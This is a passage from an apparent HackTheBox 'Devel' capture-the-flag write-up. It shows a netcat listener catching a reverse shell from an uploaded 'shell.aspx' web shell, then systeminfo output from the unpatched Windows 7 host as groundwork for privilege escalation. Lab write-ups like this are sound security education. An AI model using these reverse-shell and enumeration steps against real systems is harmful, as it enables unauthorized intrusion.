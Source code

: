 I set up a listener on port 4321 on my machine and after visiting the page at `10.10.10.5/shell.aspx` I can see the connection coming back:

{{< highlight html >}}
nc -nlvp 4321
listening on [any] 4321 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.5] 49177
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
{{< /highlight >}}

I am connected as the **iis appool\web** user!

# Privilege Escalation

Running `systeminfo` on the machine, I can see that the OS is **Windows 7 Enterprise Build 7600**.

{{< highlight html >}}
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 733 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.481 MB
Virtual Memory: In Use:    566 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
{{< /highlight >}}
